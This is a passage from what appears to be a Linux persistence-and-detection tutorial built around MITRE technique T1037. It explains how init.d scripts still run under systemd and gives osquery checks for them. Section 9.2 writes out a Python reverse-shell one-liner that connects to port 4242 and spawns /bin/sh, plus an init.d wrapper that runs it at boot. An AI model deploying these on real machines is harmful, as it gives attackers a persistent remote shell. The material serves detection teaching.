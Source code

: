 ![](/assets/posts/20220206/84-osquery-startup.png)

If you are using `rc.local` then we can compare the hash instead

```sql
SELECT path, md5 FROM hash WHERE path="/etc/rc.local";
```


### 9 Boot or Logon Initialization Scripts: init.d

**MITRE:** [https://attack.mitre.org/techniques/T1037/](https://attack.mitre.org/techniques/T1037/)

#### 9.1 How does init.d and systemd work?

The `/etc/init.d/` comes from the `sysvinit` which was the traditional `init` used by linux distros such as `ubuntu` and `debian`. However, with the migration to `systemd`, scripts that normally need to be implemented in `/etc/init.d/` can now be implemented with systemd services and the `/etc/init.d/` is kept there for compatibility.

So are `/etc/init.d/` still run? It depends. The [systemd-sysv-generator](https://www.freedesktop.org/software/systemd/man/systemd-sysv-generator.html) ([source](https://github.com/systemd/systemd/blob/main/src/sysv-generator/sysv-generator.c)) creates wrapper `*.service` units at boot which will be used to run the init scripts if no `*.service` exists.

#### 9.2 Installing malicious init.d script

First create a executable script int `/etc/init.d`. Let's say that we want to make `/etc/init.d/bad-init-d` where `/opt/backdoor.sh` is our malicious script. 

One example of malicious script can be

```bash
cat > /opt/backdoor.sh << EOF
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' & disown
EOF
chmod +x /opt/backdoor.sh
```

```bash
cat > /etc/init.d/bad-init-d << EOF
#!/bin/sh
### BEGIN INIT INFO
# Provides:          bad-init-d
# Required-Start:    $local_fs $network $syslog
# Required-Stop:     $local_fs $network $syslog
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
### END INIT INFO

do_start()
{
    start-stop-daemon --start \
        --pidfile /var/run/init-daemon.pid  \
        --exec /opt/backdoor.sh \
        || return 2
}


case "$1" in
  start)
        do_start
```